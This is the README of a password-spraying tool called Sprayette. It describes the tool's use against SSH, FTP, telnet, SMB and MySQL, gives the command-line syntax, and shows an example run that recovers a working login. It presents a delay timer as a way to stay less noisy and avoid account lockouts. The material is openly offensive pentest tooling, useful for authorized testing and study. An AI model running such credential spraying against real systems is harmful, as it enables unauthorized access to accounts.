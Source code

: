 **PASSWORD SPRAY MULTI USE (PSMU) AKA SPRAYETTE***
# Introduction
	The idea of sprayette was to have a tool that it can be used to perform a password spray over multiple services,
	ssh,ftp,telnet,smb,mysql so far. With the possiblity of adding a timer for the process so it can "less noisy" and in some cases avoid an account lockout since its a brute force attack.


# Requisites
	argparse
	time
	telnetlib
	paramiko (SSH)
	mysql.connector
	ftplib

# Usage
	./sprayette.py PROTOCOL IP USERS_FILE_LIST PASS_FILE_LIST ATTEMPS TIMER(Minutes)
	optional -p --port to change the port depending on the services

# Example
	root@kali# ./sprayette.py ssh 192.168.0.146 user.txt passwords.txt 2 1
	[*] Trying with misc:qwerty -> Failed!!!
	[*] Trying with neo:qwerty -> Failed!!!
	[*] Trying with root:qwerty -> Failed!!!
	[*] Trying with misc:toor -> Success!!!
	[*] Trying with neo:toor -> Failed!!!
	[*] Trying with root:toor -> Failed!!!
	Going to sleep for 1 minutes
	Back on spray
	[*] Trying with neo:password -> Failed!!!
	[*] Trying with root:password -> Failed!!!
	Obtained the following credentials:
	misc:toor

